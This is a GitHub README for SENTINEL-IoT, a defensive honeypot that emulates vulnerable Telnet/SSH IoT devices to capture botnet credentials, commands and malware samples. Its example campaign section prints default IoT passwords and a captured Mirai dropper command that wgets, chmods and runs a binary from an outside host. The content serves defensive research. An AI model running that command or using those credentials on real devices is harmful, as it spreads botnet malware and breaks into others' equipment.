

# SENTINEL-IoT

### Global IoT Botnet Early-Warning Sensor Network


> **"If you want to stop the botnet, you must become the vulnerability."**

**Developed by:** [Anand Binu Arjun](https://anandbinuarjun.live/)  
**Repository:** [https://github.com/AnandBinuArjun/SENTINEL-IOT](https://github.com/AnandBinuArjun/SENTINEL-IOT)

---

## 📜 Table of Contents

- [Why This Exists](#-why-this-exists)
- [What Makes This Different](#-what-makes-this-different)
- [Live Intelligence Produced](#-live-intelligence-produced)
- [Architecture & Tech Stack](#-architecture--tech-stack)
- [Detection Surface](#-detection-surface)
- [Example Live Campaign](#-example-live-campaign)
- [Kill Chain Model](#-kill-chain-model)
- [Public Threat Feed & Database](#-public-threat-feed--database)
- [Ethical & Legal Model](#-ethical--legal-model)
- [VPS Hardening Model](#-vps-hardening-model)
- [Installation, Configuration & Usage](#-installation-configuration--usage)
- [Future Roadmap](#-future-roadmap)

---

## 🚨 Why This Exists

The internet is flooded with automated malware (Mirai, Gafgyt, Mozi) scanning for vulnerable IoT devices 24/7. Traditional firewalls just block this traffic—detecting it, but learning nothing. Attackers constantly evolve, changing IPs and payloads within minutes.

**SENTINEL-IoT** flips the script. Instead of blocking the attack, it **invites** it. It emulates a vulnerable CCTV camera, router, or DVR, allowing the attacker to "break in." Once inside, every keystroke, command, and downloaded malware binary is silently captured, analyzed, and fingerprinted.

This turns noise into **intelligence**, providing defenders with the IP addresses of compromised devices *before* they can attack high-value targets.

## ⚡ What Makes This Different

Most honeypots are complex, heavy, or purely academic. SENTINEL-IoT is configured for **high-fidelity production deployment**:

1. **Lightweight Core**: Runs on a $5/mo VPS or a Raspberry Pi (Zero/3/4) with minimal resource footprint.
2. **Hybrid Deception**: Simultaneous emulation of **Telnet** (23) and **SSH** (22)—the two most abused IoT vectors.
3. **Glassmorphism UI**: A stunning, real-time dashboard that looks like a SOC screen, designed for large monitors in security centers.
4. **Integrated Malware Downloader**: Automatically identifies `wget`/`curl` commands, strips arguments, and safely downloads the malware samples for reverse engineering.
5. **Smart Logging**: Uses a dual-logging strategy (SQLite for real-time app access + Text Files for reliable cold storage).

---

## 🧠 Live Intelligence Produced

The system acts as a passive intelligence gathering node, producing three distinct types of intel:

1. **Source Intelligence (The 'Who')**
    - Origins of brute-force attacks.
    - Identification of compromised home routers vs. bulletproof hosting.
    - Attack frequency and persistence tracking.

2. **Credential Intelligence (The 'How')**
    - Dictionaries of weak usernames/passwords attackers are currently trying.
    - *Real Example:* `admin:1234` (Generic), `root:xc3511` (Dahua DVRs), `realtek:realtek` (Router chips).

3. **Payload Intelligence (The 'What')**
    - Shell scripts (`.sh`).
    - Binary URLs (`http://malware.srv/bins/arm7`).
    - Command sequences specific to botnet families (Mirai, Tsunami, Hajime).

---

## 🏗 Architecture & Tech Stack

The system is composed of three decoupled micro-services communicating via a local SQLite bridge.



### Technology Information

- **Emulators**: Pure Python 3.10+ using `socket` and `paramiko`. No external system binaries required.

- **Backend**: `FastAPI` (High-performance Async I/O).
- **Frontend**: `Flask` + `Jinja2` + Vanilla CSS (Glassmorphism design system).
- **Database**: `SQLite3` (Wal-mode compatible, zero-config).
- **Environment**: Managed via `.env` configuration (12-Factor App principles).

---

## 🎯 Detection Surface

SENTINEL-IoT emulates the following "dumb" devices to attract specifically targeted malware:

| Service | Port | Emulated Persona | Target |
| :--- | :--- | :--- | :--- |
| **Telnet** | 23/2323 | BusyBox/Linux Router | Mirai, Gafgyt, Qbot |
| **SSH** | 22/2222 | Ubuntu Server / OpenWRT | Crypto-miners, Tsunami, Stealth-Loaders |
| **HTTP** | 80/8080 | *(Planned)* Web Panel | Log4j, CCTV Admin Panels |

*Note: The system uses high-ports (2222/2323) by default to run without root privileges. You can map these to 22/23 using `iptables` or router port-forwarding.*

---

## 📝 Example Live Campaign (Real Data)

*Captured by a SENTINEL-IoT node on 2026-01-11:*

**1. The Knock (Brute Force)**
> **IP:** 192.168.x.x  
> **Source Port:** 44812  
> **User:** `root`  
> **Pass:** `vizxv` (Default credential for Dahua CCTVs)

**2. The Entry (Shell Commands)**

```bash
enable
shell
sh
/bin/busybox MIRAI
```

*The attacker attempts to check if the shell is a specific Busybox version.*

**3. The Drop (Malware Download)**

```bash
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://103.14.x.x/bins/mirai.arm7; chmod 777 mirai.arm7; ./mirai.arm7
```

*At this point, SENTINEL-IoT intercepts the URL, downloads the file to a sandbox, hashes it (SHA-256), and terminates the connection before execution.*

---

## ⛓ Kill Chain Model

SENTINEL-IoT operates intentionally across the first three stages of the **Cyber Kill Chain**:

1. **Reconnaissance**: Detects IPs scanning for open ports.
2. **Weaponization**: Captures the specific exploit payload or password combination used.
3. **Delivery**: Intercepts the delivery of the malware binary.

**Intervention Point:**
We intervene at Stage 4 (Exploitation). We do **not** execute the malware (Installation) or allow it to contact its C2 (Command & Control). This protects your infrastructure and prevents the honeypot from participating in DDoS attacks.

---

## 🌐 Public Threat Feed & Database

### API Access

The system exposes a lightweight API for integration with other security tools (SIEM, SOAR).

- **Summary Feed**: `http://<IP>:8000/dashboard/stats`
- **Top IP Feed**: `http://<IP>:8000/feed/ips`

### Database Schema (`intel.db`)

Direct SQL access is available for advanced analytics.

**Table: `attacks`**

| Column | Type | Description |
| :--- | :--- | :--- |
| `id` | INTEGER | Primary Key |
| `ip` | TEXT | Attacker Source IP |
| `type` | TEXT | Attack Type / Service (ssh, telnet) |
| `timestamp` | TEXT | UTC ISO 8601 Timestamp |

**Table: `malware`**

| Column | Type | Description |
| :--- | :--- | :--- |
| `hash` | TEXT | SHA-256 Hash of downloaded binary |
| `family` | TEXT | Malware family guess (e.g. Mirai) |
| `timestamp` | TEXT | Capture time |

---

## 🛡 Ethical & Legal Model deployment

- **Passive Interaction Only**: We never hack back. We only listen to traffic sent to us.

- **No PII Collection**: We do not collect personal data; only machine-generated attack traffic.
- **Containment**: Malware is never executed. It is downloaded to a non-executable directory (`sample_binaries/`) for static analysis only.
- **ISP Compliance**: The system is designed to be low-noise outbound. It does not scan out, ensuring you aren't flagged for abuse by your ISP.

---

## 🔒 VPS Hardening Model

Before deploying this to the public internet, ensure your host is secure:

1. **Isolate**: Run in a Docker container or a dedicated VM.
2. **Firewall**:
    - Allow Inbound: 2222 (Sensor), 2323 (Sensor), 5000 (Dash), 8000 (API).
    - **Block Outbound**: Port 25 (SMTP), 445 (SMB) to prevent leakage.
3. **Host Key Management**: The `host.key` for SSH is generated uniquely on first run to prevent fingerprinting. **Do not commit this key to Git.**

---

## 💻 Installation, Configuration & Usage

### 1. Unified Launch (Windows) - **Recommended**

Double-click `start_all.bat`. This handles environment activation and process execution.

### 2. Manual Installation (Linux/Mac/Manual Windows)

```bash
# Clone the repo
git clone https://github.com/AnandBinuArjun/SENTINEL-IOT.git
cd SENTINEL-IOT

# Setup Environment
pip install -r requirements.txt

# Configure Environment
cp .env.example .env
nano .env  # Edit your secrets and ports

# Run Components (In separate terminals or via Screen/Tmux)
python backend/api.py
python dashboard/app.py
python sensor/services/telnet_emulator.py
python sensor/services/ssh_emulator.py
```

### 3. Configuration (`.env`)

| Variable | Default | Description |
| :--- | :--- | :--- |
| `HOST_IP` | 0.0.0.0 | Bind address. Use 127.0.0.1 for local only. |
| `DASHBOARD_PORT` | 5000 | Port for the Web UI. |
| `API_PORT` | 8000 | Port for the Backend API. |
| `DB_PATH` | backend/intel.db | Location of the SQLite database. |

### 4. Access

- **Dashboard**: `http://localhost:5000`

- **API Documentation**: `http://localhost:8000/docs` (Auto-generated by FastAPI)

---

## 🔮 Future Roadmap

- [ ] **Docker Support**: `docker-compose.yml` for 1-command deployment.

- [ ] **GeoIP Integration**: Map attacks to countries on the dashboard.
- [ ] **Discord Webhooks**: Live alerting for high-priority events.
- [ ] **Ja3 Fingerprinting**: Advanced SSH client fingerprinting.

---

*This project is for educational and defensive research purposes only. Use responsibly.*
